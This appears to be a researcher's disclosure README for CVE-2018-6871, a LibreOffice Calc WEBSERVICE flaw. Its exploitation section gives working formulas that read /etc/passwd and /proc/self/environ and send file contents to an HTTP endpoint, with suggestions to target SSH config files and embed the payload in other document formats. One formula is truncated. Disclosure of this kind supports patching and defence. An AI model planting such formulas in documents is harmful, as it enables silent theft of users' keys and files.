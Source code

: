 # Vulnerability description

[CVE-2018-6871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6871)

## First part

LibreOffice supports COM.MICROSOFT.WEBSERVICE function:

    https://support.office.com/en-us/article/webservice-function-0546a35a-ecc6-4739-aed7-c0b7ce1562c4

The function is required to obtain data by URL, usually used as:

    =FILTERXML(WEBSERVICE("http://api.openweathermap.org/data/2.5/forecast?q=Copenhagen,dk&mode=xml&units=metric");"number(/weatherdata/forecast/time[2]/temperature/@value)")

In original:

    For protocols that are not supported, such as ftp: // or file: //, WEBSERVICE returns the #VALUE! error value.

In LibreOffice, these restrictions are not implemented before 5.4.5/6.0.1.

## Second part

By default the cells are not updated, but if you specify the cell type like ~error, then the cell will be updated when you open document.

# Exploitation

To read file you need just:

    =WEBSERVICE("/etc/passwd")

This function can also be used to send a file:

    =WEBSERVICE("http://localhost:6000/?q=" & WEBSERVICE("/etc/passwd"))

For successful operation, you need to send the files of the current user, so you need to retrieve current user home path.

    =MID(WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")) + 5, SEARCH(CHAR(0), WEBSERVICE("/proc/self/environ"), FIND("USER=", WEBSERVICE("/proc/self/environ")))-FIND("USER=",

Also you can parse other files too, like a ~/.ssh/config or something like that.

For other than LibreOffice Calc formats you just need embed calc object to other document (I checked it works).

# Impact

It is easy to send any files with keys, passwords and anything else. 100% success rate, absolutely silent, affect LibreOffice prior to 5.4.5/6.0.1 in all operation systems (GNU/Linux, MS Windows, macOS etc.) and may be embedded in almost all formats supporting by LO.

# Acknowledgment

Vulnerability was independently found by me (@jollheef) and Ronnie Goodrich && Andrew Krasichkov (according to LibreOffice team notes).

